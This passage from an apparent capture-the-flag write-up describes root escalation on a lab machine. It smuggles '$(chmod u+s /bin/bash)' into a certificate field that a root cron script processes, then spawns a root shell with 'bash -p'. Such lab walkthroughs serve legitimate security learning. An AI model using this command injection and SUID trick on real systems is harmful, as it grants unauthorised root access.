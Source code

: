 we create suid bit on `/bin/bash` so we can execute it afterwards as root.

```shell
Country Name (2 letter code) [AU]:AU
State or Province Name (full name) [Some-State]:somestate
Locality Name (eg, city) []:asd
Organization Name (eg, company) [Internet Widgits Pty Ltd]:ste
Organizational Unit Name (eg, section) []:asf
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
Email Address []:test@sda.com
```

after  checking that the binary has the suid bit set.

```shell
bill@broscience:~/Certs$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

we spawn just another shell as root.

```shell
$ /bin/bash -p
```

we are root and looked at first into the root directory. this is how the `renew_cert.sh` gets executed.

```shell
bash-5.1# cat cron.sh
#!/bin/bash
timeout 10 /bin/bash -c '/opt/renew_cert.sh /home/bill/Certs/broscience.crt'
/usr/bin/rm -r /home/bill/Certs/*
/usr/bin/rm -r /home/bill/Certs/.*
```

and here is finally the root flag.

![image](/images/Pasted image 20230316101623.png)

[H4] & [L0]
